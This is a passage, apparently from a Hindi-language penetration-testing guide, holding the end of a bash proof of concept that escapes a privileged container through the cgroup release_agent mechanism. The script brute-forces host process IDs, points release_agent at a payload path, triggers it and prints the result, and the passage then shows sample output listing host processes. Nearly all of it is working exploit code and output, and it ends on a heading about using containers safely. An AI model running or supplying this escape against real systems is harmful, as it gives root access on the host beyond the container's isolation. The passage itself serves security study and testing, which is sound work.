 ```bash
while [ ! -f ${OUTPUT_PATH} ]
do
if [ $((${TPID} % 100)) -eq 0 ]
then
echo "Checking pid ${TPID}"
if [ ${TPID} -gt ${MAX_PID} ]
then
echo "Exiting at ${MAX_PID} :-("
exit 1
fi
fi
# Set the release_agent path to the guessed pid
echo "/proc/${TPID}/root${PAYLOAD_PATH}" > ${CGROUP_MOUNT}/release_agent
# Trigger execution of the release_agent
sh -c "echo \$\$ > ${CGROUP_MOUNT}/${CGROUP_NAME}/cgroup.procs"
TPID=$((${TPID} + 1))
done

# Wait for and cat the output
sleep 1
echo "Done! Output:"
cat ${OUTPUT_PATH}
```
एक प्रिविलेज्ड कंटेनर के भीतर PoC को निष्पादित करने से आउटपुट इसके समान होना चाहिए:
```bash
root@container:~$ ./release_agent_pid_brute.sh
Checking pid 100
Checking pid 200
Checking pid 300
Checking pid 400
Checking pid 500
Checking pid 600
Checking pid 700
Checking pid 800
Checking pid 900
Checking pid 1000
Checking pid 1100
Checking pid 1200

Done! Output:
UID        PID  PPID  C STIME TTY          TIME CMD
root         1     0  0 11:25 ?        00:00:01 /sbin/init
root         2     0  0 11:25 ?        00:00:00 [kthreadd]
root         3     2  0 11:25 ?        00:00:00 [rcu_gp]
root         4     2  0 11:25 ?        00:00:00 [rcu_par_gp]
root         5     2  0 11:25 ?        00:00:00 [kworker/0:0-events]
root         6     2  0 11:25 ?        00:00:00 [kworker/0:0H-kblockd]
root         9     2  0 11:25 ?        00:00:00 [mm_percpu_wq]
root        10     2  0 11:25 ?        00:00:00 [ksoftirqd/0]
...
```
# सुरक्षित ढंग से कंटेनर का उपयोग करें
